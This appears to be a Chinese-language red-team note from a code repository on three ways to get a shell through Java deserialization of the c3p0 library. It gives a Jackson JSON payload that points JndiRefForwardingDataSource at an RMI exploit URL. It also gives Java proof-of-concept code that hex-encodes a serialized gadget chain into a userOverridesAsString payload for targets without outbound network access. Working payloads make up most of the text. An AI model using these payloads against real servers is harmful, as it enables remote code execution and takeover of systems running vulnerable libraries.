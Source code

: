 # c3p0有三种方式getshell

## http base

http base适用于原生反序列化

加载远程静态代码和无参构造方法触发

## jndi

jndi适用于jdk8u191以下支持reference情况

```json
{"object":["com.mchange.v2.c3p0.JndiRefForwardingDataSource",{"jndiName":"rmi://localhost:8088/Exploit", "loginTimeout":0}]}
```

## hex序列化字节加载器

hex序列化字节加载器适用于不出网但是目标依赖有gadget链的情况。

其原理是利用jackson的反序列化时调用userOverridesAsString的setter，在setter中运行过程中会把传入的HexAsciiSerializedMap开头的字符串进行解码并触发原生反序列化。

```java
InputStream in = new FileInputStream("C3P0.ser");
byte[] data = toByteArray(in);
in.close();
String HexString = bytesToHexString(data, data.length);
String poc = "{\"object\":[\"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\",{\"userOverridesAsString\":\"HexAsciiSerializedMap:"+ HexString + ";\"}]}";
System.out.println(poc);

public static byte[] toByteArray(InputStream in) throws IOException {
    byte[] classBytes;
    classBytes = new byte[in.available()];
    in.read(classBytes);
    in.close();
    return classBytes;
}

public static String bytesToHexString(byte[] bArray, int length) {
    StringBuffer sb = new StringBuffer(length);
    for(int i = 0; i < length; ++i) {
        String sTemp = Integer.toHexString(255 & bArray[i]);
        if (sTemp.length() < 2) {
            sb.append(0);
        }

        sb.append(sTemp.toUpperCase());
    }
    return sb.toString();
}
```

## 不出网利用


[JAVA反序列化之C3P0不出网利用](https://mp.weixin.qq.com/s?__biz=MzkzNTI4NjU1Mw==&mid=2247483871&idx=1&sn=56c63dc3f4dc22ad9c61143ee2c484df&chksm=c2b103a9f5c68abfb8e6cb39e81210cce98a3a6850c69b756b7018bc0db829d00af08839d8fc&mpshare=1&scene=23&srcid=1009lg8jEvc5MFXslLojyUud&sharer_sharetime=1644428964407&sharer_shareid=33a823b10ae99f33a60db621d83241cb#rd)


> 参考
>
> http://redteam.today/2020/04/18/c3p0%E7%9A%84%E4%B8%89%E4%B8%AAgadget/

